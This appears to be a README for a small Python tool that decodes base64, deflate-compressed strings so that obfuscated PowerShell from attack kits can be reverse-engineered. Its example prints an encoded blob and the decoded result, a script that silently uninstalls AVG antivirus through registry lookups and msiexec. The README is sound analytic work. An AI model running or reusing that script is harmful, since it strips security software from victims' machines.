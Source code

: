 # deflate64
Deflate64 - Decripting Base 64 strings, uncompress content

Some sploits are a collection of Microsoft Powershell modules that can be used to penetrate systems. The majority of this is made with encrypt strings in 64 and after that compressed
in deflate format.
This program decrypt base 64 strings and uncompress them, allowed you to do a reverse engineering and understood the code. 

### Usage

To get the list of basic options and information about the project:

python deflate64.py -h

### Examples of use:

```sh
 python undeflate64.py -u "xZJRa8IwFIXfBf/DJfRBZbWg4sNEhgzdxuYm1tk9FCTEaw2LiUsiCl3/+zKZYp3uaWOPPff03O8e4q0kl8ZSIeo1A21IGAdye//Qv4zDp94o6gy7caTWzUa99qimGPc508qomY0jLqdqbeLrldYo7Ri14UrGz7s8Au8wUxopm0MKyRK8SXUQDqidQ+ZGV070JuAL/opAKp3xTYVsBwYFMgv7nNBqLpNWseDtUZuNc6j/iFcsfMWVDkGBS8iBlyHNn+IuOfysHiWDP8SloMxR9A3vbpBVcYPkgpCDSXB3LLx8Cq2fN400X5TKzsRneebd1QOtEk0X0OMCTYWU0wyFwdTZtPWXWjE0BsjCcNxhgU914rRgk1sFELxJCKQraPuz80WUW8iy1qna6rV8be5pHtXmHO2c4c9q+77pdG3O98u1ucTztX0A"--txt example.txt
```

Result (content example.txt):
 
 ```sh
&uninstall32s = gci "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;
$uninstall64s = gci "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;

foreach($uninstall64 in $uninstall64s) {
$uninstall64 = $uninstall64.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall64 = $uninstall64.Trim();
if($uninstall64 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall64  /qn /norestart" -Wait }};
foreach($uninstall32 in $uninstall32s) {
$uninstall32 = $uninstall32.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall32 = $uninstall32.Trim();
if($uninstall32 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall32  /qn /norestart" -Wait }};
```
